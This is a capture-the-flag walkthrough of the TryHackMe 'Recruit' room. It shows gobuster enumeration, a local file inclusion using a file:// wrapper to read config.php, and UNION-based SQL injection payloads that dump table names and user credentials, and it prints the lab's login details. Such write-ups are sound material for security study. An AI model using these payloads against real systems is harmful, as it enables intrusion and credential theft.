# Recruit TryHackMe walkthrough

---

Medium-level challenge that required knowledge of SQL Injection, Basic LFI (Local File Inclusion), Web enumeration (gobuster), Understanding PHP wrappers (file://)



**Step 1: enumeration**

Started with Gobuster to discover hidden directories.


```bash
gobuster dir -u http://10.65.172.25 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```


The scan revealed a couple of interesting ones:

- /mail
- /phpmyadmin
- /server-status



Let’s visit /mail. Looks like the directory indexing was enabled.





From here we can see that *hr* is our login name. We also learned that hr login creds are stored in *config.php* and admin credentials are in the backend database.

#### Step 2: API check

Let’s browse <http://10.65.172.25> some more. Click the button API, get transferred here. This info is critical.



The API documentation page showed this endpoint:


```bash
/file.php?cv=<URL>
```


The FAQ stated that candidate CVs could be fetched through URLs.

That immediately suggested:

- file fetching functionality
- possible LFI / SSRF behavior
- PHP stream wrappers

#### Step 3: testing the file reader

From here we already know, that we should use **/file.php?cv=**

Several payloads were tested:


```bash
http://10.65.172.25/file.php?cv=php://filter/...
```


Blocked


```ruby
http://10.65.172.25/file.php?cv=/var/www/html/config.php
```


Blocked

Finally this worked:


```bash
http://10.65.172.25/file.php?cv=file://config.php
```


This revealed the source code of `config.php`.



Now we know the creds:

hr

hrpassword123

Time to login. Here is our first flag:



#### Step 4: SQL injection

Let’s test SQL injection probability. Insert a single quote (‘) into the search field.



This produced an SQL syntax error, confirming the parameter is vulnerable to SQL injection.



Payload


```sql
‘ UNION SELECT 1,2,3,4 — -
```


Confirmed that the query uses 4 columns.



Using `information_schema.tables`:


```sql
‘ UNION SELECT 1,table_name,3,4 FROM information_schema.tables WHERE table_schema=database() — -
```


returned:

- candidates
- users



now dump users:


```sql
‘ UNION SELECT id,username,password,4 FROM users — -
```




We got credentials to login as an admin

admin

admin@001admin



This room combined several common web vulnerabilities:  
- directory indexing  
- sensitive information disclosure  
- Local File Inclusion (LFI)  
- unsafe PHP wrappers  
- UNION-based SQL injection

